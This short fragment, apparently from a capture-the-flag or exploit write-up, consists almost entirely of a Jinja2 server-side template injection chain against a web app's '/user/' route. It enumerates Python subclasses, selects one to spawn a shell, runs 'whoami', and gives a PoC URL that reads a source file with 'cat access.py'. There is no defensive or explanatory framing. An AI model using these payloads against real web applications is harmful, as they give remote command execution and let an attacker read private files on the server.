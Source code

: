 1. `/user/{{ ''.__class__.__mro__[1].__subclasses__() }}`
2. `/user/{{ ''.__class__.__mro__[1].__subclasses__()[212] }}`
3. `/user/{{ ''.__class__.__mro__[1].__subclasses__()[212]("whoami", shell=True, stdout=-1).communicate() }}`



PoC: `http://target:5000/user/{{ ''.__class__.__mro__[1].__subclasses__()[212]("cat access.py", shell=True, stdout=-1).communicate() }}`
